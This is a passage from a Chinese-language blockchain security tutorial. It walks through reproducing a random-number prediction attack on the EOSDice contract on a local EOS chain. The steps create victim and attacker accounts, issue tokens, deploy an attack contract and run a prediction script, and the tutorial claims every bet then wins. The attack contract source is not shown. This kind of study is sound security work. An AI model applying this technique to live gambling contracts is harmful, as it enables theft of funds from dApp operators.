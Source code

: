
### 攻击测试流程

1. 创建相关账户并设置权限

```bash
# 创建EOSDICE相关账户和权限
cleos create account eosio eosbocai2222 EOS6xKEsz5rXvss1otnB5kD1Fv9wRYLmJjQuBefRYaDY7jcfxtpVk
cleos set account permission eosbocai2222 active '{"threshold": 1,"keys": [{"key": "EOS6kSHM2DbVHBAZzPk7UjpeyesAGsQvoUKyPeMxYpv1ZieBgPQNi","weight": 1}],"accounts":[{"permission":{"actor":"eosbocai2222","permission":"eosio.code"},"weight":1}]}' owner -p eosbocai2222
# 创建攻击者相关账户机器权限
cleos create account eosio attacker EOS6xKEsz5rXvss1otnB5kD1Fv9wRYLmJjQuBefRYaDY7jcfxtpVk
cleos set account permission attacker active '{"threshold": 1,"keys": [{"key": "EOS6kSHM2DbVHBAZzPk7UjpeyesAGsQvoUKyPeMxYpv1ZieBgPQNi","weight": 1}],"accounts":[{"permission":{"actor":"attacker","permission":"eosio.code"},"weight":1}]}' owner -p eosbocai1111
```

2. 给相关账户发送代币

```bash
cleos push action eosio.token issue '["attacker", "10000.0000 EOS", "memo"]' -p eosio
cleos push action eosio.token issue '["eosbocai2222", "10000.0000 EOS", "memo"]' -p eosio
```

3. 编译相关合约并部署

```bash
# 编译攻击合约
eosiocpp -o attack.wast attack.cpp
eosiocpp -g attack.abi attack.cpp
# 部署攻击合约
cleos set contract ~/attack -p attack@owner

# 编译EOSDICE合约
eosiocpp -o eosdice.wast eosbocai2222.cpp
eosiocpp -g eosdice.abi eosbocai2222.cpp
# 部署EOSDICE合约
cleos set code eosbocai2222 eosdice.wasm -p eosbocai2222@owner
cleos set abi eosbocai2222 eosdice.abi -p eosbocai2222@owner
```

4. 初始化`EOSDice`合约

```bash
cleos push action eosbocai2222 init '[""]' -p eosbocai2222
```

最后，我们来测试一下，我们可以很容易的获取到下次投注的`game_id`，此次为109。

```bash
python script.py 109
```

我们看一下合约的执行结果，可以看出，攻击合约预测的随机数和`EOSDice`的开奖`action`算出来的完全一致！这样就可以达到每次必中！

![中奖结果](https://img.learnblockchain.cn/2019/15578452291649.jpg)
